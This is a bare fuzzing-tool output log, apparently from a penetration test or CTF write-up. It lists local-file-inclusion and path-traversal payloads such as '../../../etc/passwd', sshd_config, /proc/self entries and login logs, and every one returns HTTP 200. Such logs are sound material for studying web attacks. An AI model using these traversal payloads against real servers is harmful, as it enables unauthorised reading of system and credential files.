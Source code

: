 ```bash
000000138:   200        168 L    313 W      3817 Ch     "/etc/group"                                                                                                                 
000000422:   200        230 L    640 W      6233 Ch     "/etc/ssh/sshd_config"                                                                                                       
000000432:   200        263 L    1204 W     8843 Ch     "/etc/vsftpd.conf"                                                                                                           
000000399:   200        131 L    395 W      3913 Ch     "/etc/resolv.conf"                                                                                                           
000000400:   200        149 L    373 W      3904 Ch     "/etc/rpc"                                                                                                                   
000000507:   200        108 L    254 W      3020 Ch     "/proc/self/cmdline"
000000503:   200        112 L    307 W      3444 Ch     "/proc/net/dev"                                                                                                              
000000510:   200        109 L    277 W      3207 Ch     "/proc/version"                                                                                                              
000000509:   200        169 L    397 W      4457 Ch     "/proc/self/status"                                                                                                          
000000501:   200        133 L    403 W      4838 Ch     "/proc/mounts"                                                                                                               
000000498:   200        138 L    421 W      4601 Ch     "/proc/interrupts"                                                                                                           
000000499:   200        109 L    258 W      3019 Ch     "/proc/loadavg"                                                                                                              
000000497:   200        162 L    589 W      4971 Ch     "/proc/cpuinfo"                                                                                                              
000000500:   200        162 L    411 W      4496 Ch     "/proc/meminfo"                                                                                                              
000000504:   200        112 L    297 W      3505 Ch     "/proc/net/route"                                                                                                            
000000502:   200        111 L    274 W      3232 Ch     "/proc/net/arp"                                                                                                              
000000505:   200        111 L    299 W      3443 Ch     "/proc/net/tcp"                                                                                                              
000000506:   200        115 L    277 W      3170 Ch     "/proc/partitions"                                                                                                           
000000699:   200        108 L    254 W      295285 Ch   "/var/log/lastlog"                                                                                                           
000000741:   200        121 L    360 W      73211 Ch    "/var/log/wtmp"                                                                                                              
000000750:   200        108 L    255 W      4145 Ch     "/var/run/utmp"                                                                                                              
000000758:   200        121 L    306 W      3441 Ch     "/var/www/html/.htaccess"                                                                                                    
000000929:   200        142 L    303 W      4776 Ch     "///////../../../etc/passwd"
000000205:   200        117 L    282 W      3233 Ch     "/etc/hosts"                                                                                                                 
000000236:   200        461 L    1295 W     11132 Ch    "/etc/init.d/apache2"                                                                                                        
000000237:   200        119 L    290 W      3368 Ch     "/etc/issue"                                                                                                                 
000000209:   200        125 L    364 W      3704 Ch     "/etc/hosts.deny"                                                                                                            
000000208:   200        118 L    310 W      3404 Ch     "/etc/hosts.allow"                                                                                                           
000000206:   200        117 L    282 W      3233 Ch     "../../../../../../../../../../../../etc/hosts"                                                                              
000000265:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../../../../../etc/passwd"                                                                    
000000260:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../../../../../../../../../../etc/passwd"                                                     
000000257:   200        142 L    303 W      4776 Ch     "/etc/passwd"                                                                                                                
```